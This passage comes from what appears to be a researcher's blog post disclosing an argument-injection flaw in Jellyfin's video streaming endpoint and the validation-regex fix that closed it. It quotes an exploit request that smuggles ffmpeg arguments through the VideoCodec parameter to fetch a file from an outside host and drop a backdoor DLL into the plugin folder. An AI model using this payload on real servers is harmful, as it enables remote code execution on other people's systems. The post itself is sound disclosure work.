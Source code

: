 
### Full Potential {#full-potential}

Most of this article was already done, as my first report of the issue was way back in June. It turns out another person, [Martin Wagner](https://martinwagner.co/), found the issue independently. My first bug collision, how exciting 🤩.

I was right in the previous paragraph! More powerful attacks were possible. Unlike myself, he actually managed to get remote code execution by dumping the attachment of a remote file:

```txt
 /Videos/{media}/stream.mkv?VideoCodec=libx264 /tmp/a.mkv -dump_attachment:t /config/plugins/configurations/Jellyfin.Plugin.Backdoor.dll -i https://mawalabs.de/stuff/backdoor.mkv
```

The malicious `DLL` gets placed in the plugin folder, where `Jellyfin` auto-discovers and loads it after the next restart of the instance.

That's such an ingenious idea, kudos to Martin.


### The Fix {#the-fix}

They use an [attribute](https://learn.microsoft.com/en-us/dotnet/api/system.componentmodel.dataannotations.regularexpressionattribute?view=net-7.0) to validate the `videoCodec`, `audioCodec`, `subtitleCodec` and `segmentContainer` parameters with the help of a regular expression:

```csharp
 // EncondingHelper.cs
 public const string ValidationRegex = @"^[a-zA-Z0-9\-\._,|]{0,40}$"

 // VideosController.cs
 [FromQuery][RegularExpression(EncodingHelper.ValidationRegex)] string? videoCodec,
```

What does the regex do? Well, ChatGPT, explain it like Lil Pump would:

<div class="verse">

Ayy, listen up, lil regex vibe,<br />
Starts strong, gotta be real sly.<br />
<br />
Letters, nums, dashes, dots in the mix,<br />
Comma, pipe, underscore, don't need a fix.<br />
<br />
Zero to forty, that's the game,<br />
Gotta fit the pattern, ain't that lame?<br />
<br />
From start to end, it's gotta flow,<br />
Regex magic, make it go, "Whoa!"<br />

</div>


### Conclusion {#conclusion}

I said it before: Dealing with user input is **really** hard. One slip-up can have a huge impact. The input can surface in unexpected places and is often hard to mentally track.


[^fn:1]: I do. And so will you. 😘
[^fn:2]: I didn't show the part where it was stored in that property.
[^fn:3]: Because we're restricted to the functionality the program exposes as command line arguments.